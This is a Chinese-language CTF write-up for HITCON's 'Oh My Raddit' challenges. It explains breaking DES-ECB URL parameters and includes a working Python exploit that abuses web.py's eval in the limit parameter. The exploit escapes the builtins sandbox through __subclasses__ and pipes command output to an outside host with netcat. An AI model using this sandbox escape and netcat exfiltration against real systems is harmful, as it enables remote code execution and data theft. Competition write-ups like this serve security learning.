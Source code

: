 # Oh My Raddit v1 & v2

## v1

打開題目會發現有三種地方會帶有參數`s`:

1. 文章連結
2. 下載連結
3. 顯示文章數


然後仔細觀察下載連結，可以發現:

1. 結尾都是`3ca92540eb2d0a42` (8 bytes)

2. 開頭都是`2e7e305f2da018a2cf8208fa1fefc238` (16 bytes)

並且還發現似乎標題愈長，s就愈長

然後文章數也可以發現:

1. total 10: `06e77f2958b65ffd3ca92540eb2d0a42`

2. total 100: `06e77f2958b65ffd2c0f7629b9e19627`

只有後8 bytes不同

一臉ECB mode樣，且block size很明顯是8

然後從frequency可以發現`3ca92540eb2d0a42`出現次數非常高

可以猜測他就是padding

然後隊友就爆DES，爆出來key惹: `megnnaro`

## v2

從前面的key可以知道

他是用`web.py`

參數`m`為`r`代表設定文章數，為`d`代表下載，為`p`代表文章連結處理

我們可以透過`d`參數去下載檔案，包含`app.py`

很明顯從code可以看到SQL Injection

但似乎無法RCE

跟進去web.py，可以看到`db.py`裡面`reparam()`會去`v = eval(chunk, dictionary)`

只要輸入`m=p&l=${command}`就會從limit走到eval那邊

接著只剩下繞過`dictionary['__builtins__'] = object()`了


exp.py:

```python
# coding: UTF-8
import os
import urllib
import urlparse
import requests
from Crypto.Cipher import DES


ENCRPYTION_KEY = 'megnnaro'

def encrypt(s):
    length = DES.block_size - (len(s) % DES.block_size)
    s = s + chr(length)*length

    cipher = DES.new(ENCRPYTION_KEY, DES.MODE_ECB)
    return cipher.encrypt(s).encode('hex')


tmp = {
    'm': 'p', 
    'l': "${[].__class__.__base__.__subclasses__()[-68]('/read_flag | nc kaibro.tw 6666',shell=1)}"
}

print(encrypt(urllib.urlencode(tmp)))

r = requests.get("http://13.115.255.46/?s="+encrypt(urllib.urlencode(tmp)))

print(r.text)

```

`hitcon{Fr0m_SQL_Injecti0n_t0_Shell_1s_C00L!!!}`
